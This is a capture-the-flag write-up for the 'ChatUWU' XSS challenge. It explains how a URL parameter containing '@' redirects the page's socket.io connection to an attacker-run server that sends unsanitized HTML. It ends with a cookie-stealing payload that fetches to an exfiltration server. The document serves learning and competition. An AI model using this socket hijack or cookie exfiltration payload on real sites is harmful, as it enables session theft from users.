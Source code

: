 # ChatUWU

> difficulty: Normal
> I can assure you that there is no XSS on the server! You will find the flag in admin's cookie. 
> Challenge: http://47.254.28.30:58000/ XSS Bot: http://47.254.28.30:13337/ attachment

The attachment gives us the `index.js` that is running on the backend. The challenge description tells us there is an XSS Bot running and looking at that link we see that we can send the bot to a url as long as it is on the challenge server. The main challenge url leads to a website that has a chat room. Looking at the source, we see that there are different chatrooms and one of them is handled differently:

```js
<script src="/socket.io/socket.io.js"></script>

<script>
    function reset() {
        location.href = `?nickname=guest${String(Math.random()).substr(-4)}&room=textContent`;
    }

    let query = new URLSearchParams(location.search),
        nickname = query.get('nickname'),
        room = query.get('room');
    if (!nickname || !room) {
        reset();
    }
    for (let k of query.keys()) {
        if (!['nickname', 'room'].includes(k)) {
            reset();
        }
    }
    document.title += ' - ' + room;
    let socket = io(`/${location.search}`),
        messages = document.getElementById('messages'),
        form = document.getElementById('form'),
        input = document.getElementById('input');

    form.addEventListener('submit', function (e) {
        e.preventDefault();
        if (input.value) {
            socket.emit('msg', {from: nickname, text: input.value});
            input.value = '';
        }
    });

    socket.on('msg', function (msg) {
        let item = document.createElement('li'),
            msgtext = `[${new Date().toLocaleTimeString()}] ${msg.from}: ${msg.text}`;
        room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext : item.textContent = msgtext;
        messages.appendChild(item);
        window.scrollTo(0, document.body.scrollHeight);
    });

    socket.on('error', msg => {
        alert(msg);
        reset();
    });
</script>
```

Specifically, if we set the get parameter `room` in the url to `DOMPurify`, it will be assigning the messages to `innerHTML` instead of `textContent`. That would allow easy XSS in any message we send in the chat - except that it also has to be `msg.isHtml`, and that information comes from the server.

The relevant part of the server code: The message and nickname are truncated and *then* purified, so the truncation itself does not allow us to inject anything that DOMPurify would normally catch. 

```js
socket.on('msg', msg => {
        msg.from = String(msg.from).substr(0, 16)
        msg.text = String(msg.text).substr(0, 140)
        if (room === 'DOMPurify') {
            io.to(room).emit('msg', {
                from: DOMPurify.sanitize(msg.from),
                text: DOMPurify.sanitize(msg.text),
                isHtml: true
            });
        } else {
            io.to(room).emit('msg', {
                from: msg.from,
                text: msg.text,
                isHtml: false
            });
        }
    });
```

The `from` and `text` are independently sanitized, and then in the frontend joined together:

```js
msgtext = `[${new Date().toLocaleTimeString()}] ${msg.from}: ${msg.text}`;
```

So we thought we might be able to inject half of the javascript we want to inject into the nickname and hals into the message text, and hoped that DOMPurify would let us get away with it. It did not.



In the meantime, people started doing shenanigans on the website, but it seems most of it was just affecting the styling and not executing code. Animated text runs over the screen saying `WOW!`, amongus unicode characters `ඞ` are being spammed, fake flags are being posted by users who changed their name to `system`, porn appears, all the text goes blank, and the website starts flashing in red and black.



We noticed an inconsistency: `http://0.0.0.0:58000/?&room=DOMPurify&nickname=guest1369&room=textContent` will connect to room `textContent` but `query.get("room")` will return `DOMPurify`, and that is then used to set the `room`.
But there is still the `msg.isHtml` check :(

Dreaming a little bit: We could perhaps make the XSS Bot connect to a socket on a different domain instead. If we were to control what the socket sends to the client, we could make it send `isHtml` without being purified.

```js
 let socket = io(`/${location.search}`),
```

The `location.search` is everything in the url starting from the question mark. Above line prefixes it with a slash, so normally this refers to the root of the current domain. If we could somehow make `socket.io` ignore the starting `/?`, we could give it our own server's address, and then we could control what the bot receives from the server.

We achieve this by having an `@` in our parameter. Apparently, everything before the `@` is considered to be the username on the domain. `http://127.0.0.1:58000/?nickname=@example.com/&room=DOMPurify` is parsed as the domain `example.com/&room=DOMPurify` for the socket connection. At the same time, the get parameter `room=DOMPurify` allows us to still get into the `innerHTML` region in the client-side line of code

```js
room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext : item.textContent = msgtext;
```

We can now launch an exploit server that will respond to the socket connection, and send the XSS payload via the socket connection. To achieve that, we can simply:
- take the webserver code
- add these lines to accept connection cross-domain:
```js
io.engine.on("headers", (headers, req) => {
  headers["Access-Control-Allow-Origin"] = "*";
});
```
- remove the sanitazation of the message:
```js
            io.to(room).emit('msg', {
                from: msg.from,
                text: msg.text,
                isHtml: true
            });
```

Next step is to send the malicious URL to the bot. Our looked like this:
`http://[chat_server]:58000/?nickname=x@[exploit_ip]:1231/?&room=DOMPurify` (we're not sure why we need to have `?&` after our server hostname, but it didn't work when we tried to tweak it differently 😅)

Now, the bot should connect to our server from the challenge domain. Simply connect to your own server, and send an xss payload to get the cookies, such as `<img src=x onerror="fetch('https://[exfil server]/'+btoa(document.cookie))">`

Doing this, we receive a request containing base64 encoded flag!
